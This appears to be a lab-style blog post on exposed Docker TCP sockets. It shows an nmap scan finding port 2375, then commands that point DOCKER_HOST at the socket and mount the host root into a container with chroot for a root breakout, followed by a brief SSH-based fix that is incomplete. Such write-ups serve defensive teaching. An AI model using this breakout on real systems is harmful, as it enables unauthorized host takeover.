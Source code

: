 ```yaml
---
title: "Securely Accessing Remote Docker Host"
date: "2021-08-16"
description: "The Docker TCP socket by default doesn't support any authentication. and, if the Docker socket is exposed on an external interface, anyone can connect to it and issue docker commands. This can even lead to host takeover if the Docker daemon is running as root."
coverimage: Securely_Accessing_Remote_Docker_Host_HjjWMVv.jpg
tags: docker
published: true
---
```

Docker is running out box without the socket set
```
evilsaint@marvel.lab:~# docker ps
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?

evilsaint@marvel.lab:~# docker images
Cannot connect to the Docker daemon at unix:///var/run/docker.sock. Is the docker daemon running?
```


Nmap Scan showing exposed Docker API port. 
```
nmap -sSV -p- 192.190.96.3
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-17 00:34 IST
Nmap scan report for docker-host (192.190.96.3)
Host is up (0.000015s latency).
Not shown: 65532 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
2375/tcp open  docker     Docker 19.03.1 (API 1.40)
2376/tcp open  tcpwrapped
MAC Address: 02:42:C0:BE:60:03 (Unknown)
Service Info: OSs: Linux, linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.11 seconds
````


Define the DOCKER_HOST environment variable to point to this remote TCP socket.
```
export DOCKER_HOST=192.190.96.3:2375
```

Now we can mount the image to the host volume and do a host breakout if permissions are in place
```
evilsaint@marvel.lab:~# docker run -it -v /:/host ubuntu:18.04 bash
root@6a01ea2ace07:/# chroot /host
#
```

## How can we secure this 

I will SSH into the remote host to perform the fix 

Let us kill the docker
```
ps -ef | grep docker
```

```
kill <pid>
```

Restart the docker service
```
service docker start
```

Now we export the docker host to be accessible over SSH
```
root@localhost:~# export DOCKER_HOST=ssh://root@192.190.96.3
```